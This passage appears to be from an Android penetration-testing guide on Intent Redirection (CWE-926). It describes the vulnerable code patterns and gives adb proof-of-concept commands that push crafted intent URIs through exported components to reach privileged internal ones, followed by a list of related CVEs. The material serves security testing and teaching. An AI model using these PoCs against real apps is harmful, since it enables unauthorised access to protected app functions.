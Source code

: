 ```python
        r = subprocess.run(cmd, shell=True, check=True, text=True, capture_output=True)
        print("Output:\n", r.stdout)
        if r.stderr:
            print("Errors:\n", r.stderr)
    except subprocess.CalledProcessError as e:
        print(f"Command failed with error:\n{e.stderr}")
```
Run on-device: the inspector is Python-based and works in Termux or rooted phones where `apktool`/`androguard` are available.

---

## Intent Redirection (CWE-926) – finding and exploiting

Pattern
- An exported entry point (Activity/Service/Receiver) reads an incoming Intent and forwards it internally or externally without validating source/data, e.g.:
  - `startActivity(getIntent())`
  - `startActivity(intent)` where `intent` came from an extra like `redirect_intent`/`next_intent`/`pending_intent` or `Intent.parseUri(...)`.
  - Trusting `action`/`data`/`component` fields without checks; not verifying caller identity.

What to search in Smali/Java
- Uses of `getParcelableExtra("redirect_intent")`, `getParcelable("intent")`, `getIntent().getParcelableExtra(...)`.
- Direct `startActivity(...)`, `startService(...)`, `sendBroadcast(...)` on attacker-influenced Intents.
- Lack of `getCallingPackage()`/`getCallingActivity()` checks or custom permission gates.

ADB PoC templates
- Proxy Activity forwarding an extra Intent to a privileged internal Activity:
```bash
adb shell am start -n com.target/.ProxyActivity \
  --es redirect_intent 'intent:#Intent;component=com.target/.SensitiveActivity;end'
```
- Exported Service that honors a `redirect_intent` parcelable:
```bash
adb shell am startservice -n com.target/.ExportedService \
  --es redirect_intent 'intent:#Intent;component=com.target/.PrivService;action=com.target.DO;end'
```
- Exported Receiver that relays without validation:
```bash
adb shell am broadcast -n com.target/.RelayReceiver -a com.target.RELAY \
  --es forwarded 'intent:#Intent;component=com.target/.HiddenActivity;S.extra=1;end'
```
Flags helpful for singleTask-style behavior
```bash
# Ensure a fresh task when testing Activities that check task/intent flags
adb shell am start -n com.target/.ExportedActivity --activity-clear-task --activity-new-task
```

Real-world examples (impact varies):
- CVE-2024-26131 (Element Android): exported flows leading to WebView manipulation, PIN bypass, login hijack.
- CVE-2023-44121 (LG ThinQ Service): exported receiver action `com.lge.lms.things.notification.ACTION` → system-level effects.
- CVE-2023-30728 (Samsung PackageInstallerCHN < 13.1.03.00): redirection → arbitrary file access (w/ user interaction).
- CVE-2022-36837 (Samsung Email < 6.1.70.20): implicit Intents leak content.
- CVE-2021-4438 (React Native SMS User Consent).
- CVE-2020-14116 (Xiaomi Mi Browser).
